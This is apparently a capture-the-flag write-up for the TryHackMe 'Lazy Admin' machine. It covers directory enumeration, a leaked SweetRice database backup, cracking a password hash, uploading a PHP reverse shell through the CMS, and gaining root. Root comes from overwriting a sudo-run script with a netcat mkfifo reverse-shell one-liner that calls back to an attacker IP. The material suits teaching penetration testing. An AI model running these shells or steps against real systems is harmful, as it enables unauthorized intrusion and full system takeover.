 ```yaml
---
layout: post
permalink: /posts/thm/lazy-admin
title: "Lazy Admin"
---
```


Easy linux machine to practice your skills<br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/lazy-admin/nmap.png)

There are two open ports, 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/lazy-admin/website.png)

It's Apache landing page. Let's scan for hidden directories with gobuster.

```
gobuster dir -u http://10.10.60.134/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/lazy-admin/gobuster.png)

We have found a directory `content`. It's CMS system called SweetRice. 

![content](/assets/images/thm/lazy-admin/content.png)

I searched for any known vulnerabilities in <https://www.exploit-db.com/> but wasn't sure which of the could help.

![exploit-db](/assets/images/thm/lazy-admin/exploit-db.png)

Let's scan this subdirectory.

```
gobuster dir -u http://10.10.60.134/content -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster-content](/assets/images/thm/lazy-admin/gobuster-content.png)

One of the CVE reports is related with the `inc` directories where we'll be able to download the mysql backup. Go and visit this directory.

![mysql-backup](/assets/images/thm/lazy-admin/mysql-backup.png)

Download the mysql backup and see whether we'll be able to find any useful information

![sql](/assets/images/thm/lazy-admin/sql.png)

If you look closely you will find username `manager` with hash `42f749ade7f9e195bf475f37a44cafcb` <br/>

I'm going to use <https://crackstation.net/> to crack the password.

![crack](/assets/images/thm/lazy-admin/crack.png)

Good, now we have credentials. Go to `as` subdirectory and try to login.

![as](/assets/images/thm/lazy-admin/as.png)

![welcome](/assets/images/thm/lazy-admin/welcome.png)

Nice, I went back to the exploit db and looked for the apropriate exploit. It's <https://www.exploit-db.com/exploits/40700>. Now from left side menu navigate to Ads. There we'll paste our reverse php code <https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php> this is a good one. Dont forget to set your ip and port

![ads](/assets/images/thm/lazy-admin/ads.png)

Press done button and start a listener on your machine.

```
nc -lvnp 4444
```

Navigate to `<IP>/content/inc/ads/<YOUR_REVERSE_SHELL_FILE_NAME>`

![shell](/assets/images/thm/lazy-admin/shell.png)

Good. Look around the system and find the user flag. <br/>

The last thing that we have to do is to escalate our privileges. Let's check whether we are able to execute any commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/lazy-admin/sudo-l.png)

Let's see what is backup.pl

![backup](/assets/images/thm/lazy-admin/backup.png)

It executes a `copy.sh`

![copy](/assets/images/thm/lazy-admin/copy.png)

It looks that we already have the reverese shell we just need to change the ip

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR-IP> 5554 >/tmp/f" > /etc/copy.sh
```

start netcat listener 

```
nc -lvnp 5554
```

and execute the script

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![root](/assets/images/thm/lazy-admin/root.png)

Nice, we were able to get root access. Now just find the root flag.
